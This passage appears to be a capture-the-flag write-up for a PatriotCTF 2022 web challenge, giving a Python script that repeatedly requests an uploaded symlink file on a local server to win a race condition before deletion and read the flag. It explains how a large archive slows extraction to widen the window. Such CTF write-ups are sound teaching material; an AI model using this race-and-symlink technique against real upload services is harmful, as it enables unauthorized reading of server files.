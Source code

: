Here is the code for the race condition win:
```python
import requests
import threading

SERVER_ADDR = "http://127.0.0.1:5000" # change this to whatever the docker is running at

def get_cookie():
    data = {
        "username": "test", # make this user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

while True:
    r = requests.get(url=f"{SERVER_ADDR}/upload/payload/link.file", allow_redirects=True, cookies=cookie)
    if "PCTF" in r.text:
        print(r.text)
        break
```

Basically, we are making infinite requests to where the `link.file` will be uploaded in hopes that right after it does get uploaded, we will make a request right before it gets deleted. We can check that we got the right output by checking to see if the flag format `PCTF` is in the request output.

Here is a gif of how I ran the two python scripts. I'm also running the web app normally and not through docker so you can see all the requests come in.

<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/TaaS_solve.gif" width=100%  height=100%></p>

The following image shows the tar decompression time difference between the `link` file and the `big` file:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/tar_decompression.png" width=50%  height=50%></p>

You can see the `large.txt` file takes a whole 0.3 seconds to decompress, giving us plenty of time for the race condition. The bigger the file, the more time you have.  


note: There is delete functionality on the uploads page because it's inevitable there will be many attempts with many uploaded files, and it would be annoying to keep renaming files every time.
